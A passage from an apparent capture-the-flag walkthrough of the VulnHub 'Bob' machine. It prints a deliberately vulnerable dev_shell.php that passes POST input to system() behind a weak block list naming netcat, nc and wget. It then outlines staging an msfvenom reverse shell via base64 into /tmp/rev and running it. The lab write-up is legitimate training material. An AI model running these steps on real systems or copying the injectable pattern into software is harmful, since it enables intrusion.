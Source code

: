 ```
```

I can then use `cat.sh` to display the contents of any file where `www-data` has read permissions. For example, let's find out what's in `dev_shell.php`.

```
# ./cat.sh /var/www/html/dev_shell.php
...
  <?php
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
  ?>
  ...
    <?php
    system("running command...");
      //executes system Command
      //checks for sneaky ;
      if (strpos($command, ';') !==false){
        system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
      }
      else{
        $is_he_a_bad_man = explode(' ', trim($command));
        //checks for dangerous commands
        if (in_array($is_he_a_bad_man[0], $bad_words)){
          system("echo Get out skid lol");
        }
        else{
          system($_POST['in_command']);
        }
      }
    ?>
  ...
```

Now that we know how `dev_shell.php` works, let's get ourselves a proper shell.

## Low-Privilege Shell

Here's an overview of how you can get a low-privilege shell:

On your attacking machine:

1. Generate a reverse shell with `msfvenom`.
2. Set up `netcat` listener.
3. Encode the reverse shell in `base64`.

In the web shell:

<ol start="4">
<li>Run <code>echo -n [output from #3] | base64 -d > /tmp/rev</code>.</li>
<li>Run <code>chmod +x /tmp/rev</code> in the web shell.</li>
<li>Run <code>/tmp/rev</code> in the web shell.</li>
</ol>


[1]: https://www.vulnhub.com/series/bob,152/
[2]: http://c0rruptedb1t.ddns.net/
[3]: https://www.vulnhub.com